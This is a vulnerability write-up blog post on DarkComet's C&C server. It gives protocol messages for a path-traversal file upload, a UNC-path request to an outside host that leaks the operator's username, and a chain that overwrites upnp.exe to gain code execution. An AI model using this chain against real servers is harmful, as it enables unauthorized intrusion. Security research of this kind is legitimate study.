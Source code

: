 ```yaml
---
layout: post
title: DarkComet upload vulnerability
---
```


This post will introduce a file upload vulnerability in DarkComet's C&C server. While a flaw that allows an attacker to download files has already been known for many years there is no mention of this very similar vulnerability.
A quick disclaimer before we go into the actual matter: Hacking a C&C server might seem morally justified but it is still illegal. Don't do it.

# Intro

DarkComet has been used by script kiddies and [repressive regimes](https://en.wikipedia.org/wiki/DarkComet#Syria) alike. I started the search for a vulnerability a few days ago and found [many](http://samvartaka.github.io/exploitation/2016/06/03/dead-rats-exploiting-malware) [interesting](https://techanarchy.net/2015/11/darkcomet-hacking-the-hacker/) [articles](https://www.nccgroup.trust/globalassets/our-research/us/whitepapers/PEST-CONTROL.pdf) on DarkComet. All of them mention the file download vulnerability we will now look at.
The DarkComet C&C server uses a `QUICKUP` command to upload files to the clients. It looks like this (`C` denotes the client and `S` the server):

```Text
S: QUICKUPC:\some\file.jpg|123|UPLOADEXEC
```

The client then opens a new connection:

```Text
S: IDTYPE
C: QUICKUP123|C:\some\file.jpg|UPLOADEXEC
S: \x41\x00\x43
C: A
S: <file length>
C: A
S: <raw file data>
```

The C&C server doesn't check whether it ever issued an upload command. This means anyone who connects to the server can download any file. Unfortunately since there is no way to get the server to list all files in a directory this vulnerability is limited to downloading files with a known name. Usually the only interesting files are `comet.db` which contains a list of all victims and keylog data and `config.ini` which may contain no-ip.org passwords.

While this vulnerability is interesting there is nothing like a remote code execution vulnerability. A logical starting point would be to look into the upload functionality of DarkComet:

# Upload functionality

When the C&C server tries to download a file this is what happens:

```Text
S: DOWNLOADFILE596|C:\some\file.jpg
```

The client then opens a new connection:

```Text
S: IDTYPE
C: FILETRANSFER0|596
S: \x41\x00\x43
C: FILEBOFC:\some\file.jpg|0
S: A
C: <raw file data>
```

The server will now write the file into a user specified directory with the filename `file.jpg`. While this might seem trivially exploitable it unfortunately isn't. The `596` in `DOWNLOADFILE596` is the socket handle of the client and the server wouldn't accept `FILETRANSFER0|596` if it didn't already issue a `DOWNLOADFILE` with the same handle.

This leaves us with a pretty useless vulnerability: We can upload arbitrary files in a directory we can't control under the condition that we can guess a socket handle the server already downloaded a file from. Guessing a socket handle isn't really hard (they always seem to be a multiple of four and are usually between 400 and 2300). We will however need to use a trick to get the file into a directory specified by us:

# Path shenanigans

Since we can control the file name in the `FILEBOFC:\some\file.jpg|0` message we can try some path shenanigans. And behold: The server uses `split("\")` to get the file name. This means we can simply change the message to `FILEBOFC:\some\../../../Windows/file.jpg|0` and the server will use `../../../Windows/file.jpg` as the file name. The Windows API however won't care and will happily interpret `/` as a path delimiter. Using this trick we can upload the file into any directory on the drive.

With some more shenanigans we can also get the username of the user running DarkComet: For this we will use UNC paths and the file download vulnerability:

```Text
QUICKUP123|\\our.domain.tld\test.txt|UPLOADEXEC
```

The C&C server will try to connect to our network share and leak the user and computer name. This information can now be used for our final trick:

# Remote code execution

The DarkComet C&C server will by default try to use UPnP to automatically open ports. It does this by writing a file called `upnp.exe` into the Temp directory and calling it when necessary. To execute our own code we can use the file upload vulnerability with the fact that the server leaks the username when connecting to a network share and upload an executable to `C:\Users\<username>\AppData\Local\Temp\upnp.exe`. The next time the C&C server restarts our code will get executed.

# Proof of concept

A proof of concept can be found [here](https://gist.github.com/PseudoLaboratories/260b6f24844785aacc1e2fb61dd05c01).

# Conclusion

While not being an easily exploitable vulnerability this could be used against many of the DarkComet C&C servers in the wild. A dedicated attacker could even write a script that acts like a normal client and tries to trick the C&C server into downloading files by conveniently placing `passwords.txt` or `nudes.jpg` on their desktop. This would remove the need to guess a socket handle and make sure that the conditions of the vulnerability are met.

DarkComet and other C&C servers are a cool starting place for beginners searching for vulnerabilites. This is because they are often written by people without any proper security practices, they are network based applications and they can easily be found in the wild.
